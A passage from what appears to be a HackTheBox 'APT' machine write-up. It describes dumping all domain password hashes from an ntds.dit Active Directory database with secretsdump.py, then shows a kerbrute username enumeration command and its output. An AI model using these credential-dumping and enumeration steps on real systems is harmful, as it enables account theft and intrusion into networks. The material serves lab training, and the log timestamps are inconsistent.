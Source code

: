 
We can use ntds.dit which is the active directory database and the registry system file with secretsdump.py to retrieve the hashes for all the accounts in the domain.


>  The ntds. dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain<br>

<p class= "aligncenter" >
  <img src="/assets/img/Posts/APT/secrets-dump-backup.png" class="center">
</p>


Create seperate wordlist of users and hashes. 

### Enumerating Valid Usernames with kerbrute


```shell
┌──(sid㉿kali)-[~/…/hackthebox/windows-machines/apt/smb] 
└─$ kerbrute userenum -d htb.local --dc apt.htb.local usernames.ntds -t 40
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/18/20 - Ronnie Flathers @ropnop

2021/01/03 11:57:53 >  Using KDC(s):
2020/01/03 11:57:53 >   apt.htb.local:88

2021/01/03 11:58:00 >  [+] VALID USERNAME:   APT$@htb.local
2021/01/03 11:58:00 >  [+] VALID USERNAME:   Administrator@htb.local
2020/01/03 11:59:24 >  [+] VALID USERNAME:   henry.vinson@htb.local
2020/01/03 11:04:42 >  Done! Tested 2000 usernames (3 valid) 
```
